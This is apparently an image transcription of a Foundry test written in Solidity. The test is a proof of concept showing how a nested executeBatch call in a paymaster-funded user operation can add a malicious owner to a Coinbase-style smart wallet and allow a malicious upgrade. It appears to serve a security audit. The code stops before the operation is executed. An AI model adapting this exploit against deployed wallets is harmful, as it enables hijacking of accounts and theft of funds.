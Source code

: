 ```solidity
    // the second smart wallet can be leveraged to hijack ownership and perform malicious upgrades using a nested `executeBatch()`
    function test_hijackNestedExecuteBatch() public {
        _etchEntrypoint();
        MagicSpend paymaster = new MagicSpend(owner, 1);

        // configure PermissionManager singleton and dummy PermissionContract
        permissionManager = new PermissionManager(owner, cosigner);
        vm.startPrank(owner);
        permissionManager.setPaymasterEnabled(address(paymaster), true);
        successPermissionContract = new MockPermissionContract(false);
        permissionManager.setPermissionContractEnabled(address(successPermissionContract), true);
        vm.stopPrank();

        // deploy innocent smart contract wallets and initialize them with each other as owners
        MockCoinbaseSmartWallet victimWalletImpl = new MockCoinbaseSmartWallet(); // only victim ("first") wallet used as proxy for brevity, + to show malicious upgrade
        MockCoinbaseSmartWallet victimWallet = MockCoinbaseSmartWallet(payable(address(new ERC1967Proxy(address(victimWalletImpl), ''))));
        MockCoinbaseSmartWallet pivotWallet = new MockCoinbaseSmartWallet();
        bytes[] memory victimWalletOwners = new bytes[](2);
        victimWalletOwners[0] = abi.encode(owner);
        victimWalletOwners[1] = abi.encode(address(pivotWallet));
        victimWallet.initialize(victimWalletOwners);
        bytes[] memory pivotWalletOwners = new bytes[](1);
        pivotWalletOwners[0] = abi.encode(address(victimWallet));
        pivotWallet.initialize(pivotWalletOwners);

        // enable permissions on both wallets by adding PermissionManager singleton as owner to each
        vm.prank(address(victimWallet));
        pivotWallet.addOwnerAddress(address(permissionManager));
        vm.prank(address(pivotWallet));
        victimWallet.addOwnerAddress(address(permissionManager));

        // create dummy permission with approval
        PermissionManager.Permission memory permission = _createPermissionWithApproval(victimWallet);

        // create malicious owner wallet to be added via nested call to `pivotWallet.executeBatch()`
        address maliciousOwner = address(payable(new MockCoinbaseSmartWallet()));

        // deposit funds on behalf of paymaster
        vm.deal(address(paymaster), 100 ether);
        vm.prank(address(paymaster));
        entrypoint.call{value: 10 ether}('');

        // form malicious `userOp` containing nested `executeBatch()` call
        UserOperation memory userOp = _createUserOpNestedExecuteBatch(permission, address(paymaster), payable(address(victimWallet)), address(pivotWallet), maliciousOwner);

        withdrawRequest.signature = _getSignature(paymaster.getHash(address(victimWallet), withdrawRequest), ownerPk);
        userOp.paymasterAndData = abi.encodePacked(paymaster, abi.encode(withdrawRequest));

        // `entryPoint.getUserOpHash(userOp)`
        (, bytes memory ret) = entrypoint.call(bytes.concat(hex'a6193531', abi.encode(userOp)));
        bytes32 userOpHash = bytes32(ret);

        userOp.signature = victimWallet.wrapSignature(0, _getSignature(userOpHash, ownerPk));

        PermissionManager.PermissionedUserOperation memory permissionedUserOp;
```